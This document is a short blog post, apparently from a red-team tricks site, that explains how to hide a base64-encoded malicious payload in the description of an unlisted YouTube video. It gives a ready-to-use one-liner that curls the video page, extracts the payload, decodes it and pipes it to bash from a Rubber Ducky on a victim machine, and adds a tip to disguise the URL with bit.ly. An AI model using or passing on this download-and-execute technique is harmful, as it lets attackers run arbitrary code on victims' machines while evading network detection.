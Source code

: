 ```yaml
---
layout: post
title: Hosting payloads on Youtube
description: Use Youtube to host your malicious payloads
keywords: payload,youtube,shell 
disqus: true
tags: [TRICKS]
categories: RCE 
---
```

#### Why that? 
It's a trick created during a red team mission, where we have a rubber ducky, which will download a bash script to run the [GTRS](https://github.com/mthbernardes/GTRS) on the victm machine, but we have problem, the traffic with the C2 will be safe using the [GTRS](https://github.com/mthbernardes/GTRS), but the infected machine need to talk directly to the C2 to get our payload, so we had the idea to use Youtube to host our bash payload.

### Recipe of Rataria
First of all, create your payload with powershell, bash, python or whatever language you want, then encode it in base64.

```bash
base64 payload | tr -d '\n'
```

Now upload a video on youtube, make it unlisted and on the video description insert your payload encoded, BUT to make your life easier add a tag at the start and end of the payload, like this, `sCmD[YOUPAYLOAD]eCmD`, and that's all, now all you need is execute this command on your rubber ducky payload

```bash
curl https://www.youtube.com/watch?v=VIDEOID | sed -n 's/.*sCmD\(.*\)eCmD.*/\1/p' | base64 -d | bash
```

A tip to shrink the url, is use [bit.ly](https://bit.ly) which is used by twitter.
